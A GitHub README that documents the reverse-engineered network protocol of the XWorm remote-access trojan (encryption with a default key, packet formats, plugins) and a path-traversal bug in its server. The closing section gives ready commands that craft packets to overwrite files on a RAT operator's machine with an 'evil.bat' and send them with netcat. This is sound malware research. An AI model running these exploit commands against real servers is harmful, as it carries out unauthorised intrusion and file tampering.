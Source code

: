 The XWorm protocol is mostly stateless and encrypted with a pre-shared key. Packets are usually plaintext when decrypted, but occassionally contain gzipped files.
This information was figured out from Wireshark network dumps and with the invaluable [dnSpy](https://github.com/dnSpyEx/dnSpy).

Note that since I reverse engineered it, XWorm 4.0 was released which has some updates, including probably changing the workings of some packets and adding or removing security holes. I was too lazy to find a crack for it yet and start breaking it apart, but the inner workings mostly seem to be the same based on information from the owner's Telegram group.
## A single packet
One encrypted packet consists of two parts: the length marker, and the encrypted data itself. The length marker is the length of the encrypted data, literally as an ASCII string, followed by a zero byte. Let's look at the hexdump of a captured INFO packet:
```
00000000: 3230 3800 0d2f e1b3 98fd e0a6 72cd a7fd  208../......r...  
00000010: 0856 a190 ce49 cce3 8a5f cccb 79d9 e43c  .V...I..._..y..<  
00000020: 861d 3a42 d1a6 e0c4 0a6c 6813 4af9 e48c  ..:B.....lh.J...  
00000030: e0d5 c7b6 58ff 541a cbee 7fdb 06a1 d311  ....X.T.........  
00000040: 1fc1 50de 8498 da76 cff1 c091 5620 351c  ..P....v....V 5.  
00000050: f5ac 5f1a 0ee6 ea4e 0199 812d a419 fba9  .._....N...-....  
00000060: 7265 65f7 ad29 29dd 9739 52cd 7c19 76b0  ree..))..9R.|.v.  
00000070: 2ee5 68d7 cf99 5b48 313b 60f3 88c3 67af  ..h...[H1;`...g.  
00000080: 812f 96a4 f5e2 138c adfa 2a95 b011 1c4e  ./........*....N  
00000090: 78bf 16d8 78c7 93b3 b228 b9d7 f6d9 b167  x...x....(.....g  
000000a0: 6ac6 8151 6640 6328 dcbd c7e5 a24b 4860  j..Qf@c(.....KH`  
000000b0: ab6c 404e c8aa 3e94 7203 6488 b22c 3a74  .l@N..>.r.d..,:t  
000000c0: e490 dc64 daba 6e4f 5899 f905 7208 73af  ...d..nOX...r.s.  
000000d0: 69bc 5062 3936 00fc fcde 5d8d 9eaa 733b  i.Pb
```
We can see that it begins with the number 208 in plain text, then a zero byte and encrypted data follows.

Encryption is performed with a preshared key. This key is hashed with MD5 and the resulting 16 bytes are used as the key for an AES-128 cipher (in ECB mode). XWorm's default key is `<123456789>`, and from experience, people don't really tend to change that. (If they did for some reason, it can be easily read with a .NET debugger after the first four statements of the XWorm stub.)

If you put the relevant parts of the above captured packet into a program like [CyberChef](https://gchq.github.io/CyberChef/), and decrypt AES-128 ECB with the MD5 hash of `<123456789>` (`dadefdfd3df5ba731438e7569f826962`), we can see the output:
```
INFO<Xwormmm>BC666AABAFC76AEBF101<Xwormmm>nignog<Xwormmm> Windows 10 Home 64bit<Xwormmm>XWorm V3.0<Xwormmm>19/02/2023<Xwormmm>False<Xwormmm>False<Xwormmm>Tr  
ue<Xwormmm>Malwarebytes,Windows Defender
```
Voilà!

Just from this packet, it can be inferred that these are primarily arrays of strings separated by `<XWormmm>`. In order to not repeat myself, I'm going to use semicolons to separate packet arguments in this document; these are to be implicitly replaced with `<Xwormmm>`. Note that the program in this repo does it for you automatically.
## Basic connection flow
The client begins by sending an INFO packet. This is formatted as `INFO;Client ID;Username;OS version;XWorm version;Date;Whether XWorm has USB access;Whether UAC is on;Whether the computer has a web camera;Installed antiviruses`. This is the same kind of packet that was decrypted in the previous section. Note that even fields which *should* have a fixed data type are transmitted as strings and displayed in the RAT's main window. Therefore, if one were to synthetise an `INFO` packet where the webcam field was set to `Hello World`, that would be displayed in the table. Additionally, if one client sends multiple info packets, the extra ones appear as "ghost entries" which can't be meaningfully interacted with and aren't removed when the client disconnects.

Afterwards, multiple messages are sent periodically that only say `PING!`. A client is nevertheless not disconnected if it doesn't respond to a `PING!` nor marked as inactive.

I haven't documented much of the protocol, but it should be possible to decrypt more communication between the RAT and the clients at some point. For example, the webcam plugin can *probably* be abused to display any video on the host given how shoddily the known plugins are coded.
## Plugins
Plugins are DLLs which are saved to the registry and dynamically loaded and executed by the client. Upon startup, they get the IP, port and encryption key of the server from the running client. They usually make a new connection afterwards and possibly can also be given arguments (haven't explored them too much at this point). They communicate in the same packet format, but have different handshakes.

Plugins provide functionality such as the file manager, remote desktop and webcam access.
### The file manager plugin
This is the one that I found the important vulnerabilities in, specifically the ability to drop files on the server.

When the file manager plugin is activated it sends a handshake in the format of `FileM;Client ID`. The server then unconditionally (!) begins a file manager session (popping up a window), even if that client ID isn't connected anyway.

The notable packet is `downloadedfile`. Originally, this is the client's response to a request from the RAT to download a file. However, as the RAT's connection is mostly stateless, this can be abused to upload files to the server at any point, and, combined with a path traversal, to almost any directory.

The packet looks like `downloadedfile;Client ID;gzipped file contents;file name`. The client ID **must** be the same as one of the existing file manager sessions on the RAT (so in the trivial case, the ID that was sent with the `FileM` packet). File contents are then saved to `ClientsFolder/Client ID/file name`. We have path traversal at two points: first, the server accepts a `..` in the client ID. Additionally, because it is `Path.Combine`d to the ClientsFolder path, an absolute path would also be accepted without hesitation. (This allows one to overwrite any system file if the RAT is running with admin privileges!)

The file name entry is also path traversable, but this might be fixed in the new update (the Client ID still seems to be vulnerable).

A note about the gzipped file contents: it's just the contents of the downloaded file, but gzipped and the length of **the original file** is prepended to it in 4 little-endian bytes (for preallocating a properly sized buffer). The program also handles gzipping automatically, if an argument is given in the format of `gz:/path/to/some/file`.

Some other interesting packets are:
- `FileManagerMSG;Client ID;message` - displays a green message in the bottom of the file manager window belonging to the session of the specified client ID
- `FileManagerErr;Client ID;message` - same thing, but the message is red
- `viewimage;Client ID;gzipped PNG file` - used to display a thumbnail of selected images. Interestingly, it looks like it can't be (easily) abused to display anything, needs more research.
- `txtttt;Client ID;file contents;file name` - response to a text file editing request. I didn't try it out yet, but sending it without asking can probably pop up an editor window with arbitrary text.

Fun fact: adding a file or folder named `FileManagerSplit` to any directory and then navigating there seems to partially break the file manager. A file/folder named `<Xwormmm>` would probably do the same thing.

### Webcam

The webcam plugin is pretty simple. Handshake is done via a packet that looks like `WBCM;List of webcams;Client ID`. `List of webcams` is a `|`-separated list of webcam names. The handshake will cause a window to pop up by good XWorm habits.

Images are then sent with the following packet: `Cam;gzipped JPG file;Client ID`. As always, the client ID actually has to exist. In order to play a video, you have to time sending the packets correctly. Also note that if a client does not respond to a PING for an extended time, the server actually disconnects it. Example of webcam-trolling:

![Screenshot_20230417_182015](https://user-images.githubusercontent.com/87039059/232548687-8bf84891-6c86-4a2c-81ac-ea42438e7cd8.png)

## Miscallenous interesting packets
- `Msg;message` - displays a log message in the Log tab of the main RAT window

## Actually using the program
After getting the server IP, port and encryption key, faking packets is fairly trivial. The program takes input from its command line arguments and puts the `<Xwormmm>` separator between them. Files can be gzipped and included with the previously described `gz:` syntax. The `-e` switch is used for starting the encryption. First argument is the output file, then the packet follows. Some examples:
- `python main.py -e packet.bin INFO ID User OS Version Date USB UAC Webcam Antivirus` - makes a fake INFO packet and writes it to `packet.bin`. **Note that `packet.bin` is overridden**. Use `-ae` in the beginning to append to the file instead of overwriting.
- `python main.py -e packet.bin FileM ..\..` - crafts a packet that begins a file manager session with the ID `..\..`, preparing it for a path traversal attack.
- `python main.py -ae packet.bin downloadedfile ..\.. gz:evil.bat Fixer.bat` - Continues the previous packet (note the `-ae`!) with one that overwrites `Fixer.bat` in the XWorm folder with our nicely crafted `evil.bat` (`evil.bat` must be obviously in the same directory as `main.py` or you need to give the full absolute/relative path to it).

When all of this is done and you have one or more packet files to go, just send them over to the server with any socket connection program. For example, with netcat: `netcat IP PORT < packet.bin`.

